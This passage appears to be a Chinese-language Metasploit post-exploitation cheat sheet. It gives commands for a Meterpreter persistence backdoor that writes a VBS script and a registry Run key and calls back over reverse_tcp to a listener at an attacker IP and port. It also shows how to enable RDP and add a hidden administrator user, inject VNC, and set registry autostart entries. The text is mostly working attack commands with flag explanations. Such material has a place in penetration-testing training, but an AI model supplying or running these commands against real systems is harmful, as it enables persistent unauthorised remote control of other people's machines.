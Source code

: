 - **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登陆时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

    ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST [lhost]
    set LPORT [lport]
    exploit -j
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**vnc**
```bash
run vnc                             # 分段注入VNC DLL
```

**注册表操作**

通过注册表设置开机自启动
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```
